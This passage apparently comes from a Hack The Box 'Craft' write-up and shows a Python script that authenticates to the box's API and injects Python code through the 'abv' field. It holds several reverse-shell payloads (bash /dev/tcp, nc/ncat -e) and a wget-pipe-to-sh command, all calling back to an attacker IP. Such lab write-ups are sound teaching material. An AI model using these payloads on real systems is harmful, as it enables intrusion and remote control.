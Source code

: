 This creds allow us to interct with the API. Moreover the `test.py` script take
care to generate a valid token and let us directly interact with the API. The
quote are a bit a pain in the ass here. Nevertheless we can validate the code
execution using a python simpleHTTPserver on our end and execute `wget 10.10.14.51:8081/$(<command>)`
server side.

At least we get a reverse shell.

    :::pyhon
    #!/usr/bin/env python

    import requests
    import json


    response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    token =  json_response['token']

    headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

    # make sure token is valid
    #response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False, proxies=proxies)
    response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
    print(response.text)

    # create a sample brew with bogus ABV... should fail.

    print("Create bogus ABV brew")
    brew_dict = {}
    #brew_dict['abv'] = '__import__("os").system("/bin/bash -i >& /dev/tcp/10.10.14.51/7777 0>&1")'
    #brew_dict['abv'] = '__import__("os").system("wget 10.10.14.51:8081/$(ls ./lolll.sh)")'
    #brew_dict['abv'] = '__import__("os").system("ncat 10.10.14.51 4444 -e /bin/sh &")'
    #brew_dict['abv'] = '__import__("os").system("wget -O - 10.10.14.51:8081/shell.py | sh")'
    brew_dict['abv'] = '__import__(\'os\').popen(\'nc 10.10.14.194 7777 -e /bin/sh\').read()'
    #brew_dict['abv'] = '0.15'
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)
    print json_data
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

## API: reverse shell

Once we get a relay on the box we notice that we are root… but in a docker.

